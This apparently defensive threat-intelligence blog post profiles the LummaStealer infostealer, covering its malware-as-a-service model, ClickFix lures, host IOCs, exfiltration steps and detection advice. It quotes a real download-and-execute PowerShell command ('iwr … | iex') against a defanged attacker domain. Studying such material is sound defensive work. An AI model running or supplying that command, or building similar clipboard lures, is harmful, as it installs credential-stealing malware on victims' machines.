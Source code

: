 ```yaml
---
layout: post
title:  "LummaStealer Overview - Russian InfoStealer"
date:   2025-06-16 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer is a C prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

![Lumma log sale](/images/log_sale.PNG)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.

An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```

Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

![Copy Clipboard](/images/lumma_clickfix.PNG)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you're human. Right?

The cool part about most clickfix attacks is that malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

![Copy Clipboard](/images/clickfix_example.PNG)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in, APIs it calls and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use as a control panel for infected hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect Lumma behaviour is even better!

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day or two it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as PowerShell
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

### Data Exfilitration and C2 Channels
Data exfilitration for Lumma remains consistent for many variants. It seems beaconing and C2 persistence isn't the main goal. It is to silently grab and exfil data.
1. Malware detonates
2. Search here there and everywhere for sensitive information
3. Whack it into a .zip
4. Exfilitrate info
5. Attempt C2 persistence.

Lumma often hosts its domains behind CDN providers such as Bunny.net and DigitalOcean. This is beneficial as it masquerades as legitimate activity. A analyst eyeballing an alert might attribute it to CDN traffic and not bother properly triaging the alert. 

Lumma has also been seen whacking its domains behind CloudFlare IPs as discussed above. This again, gives an analyst less of a reason to think it's bad. Well because everyone uses CloudFlare to front their domains.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)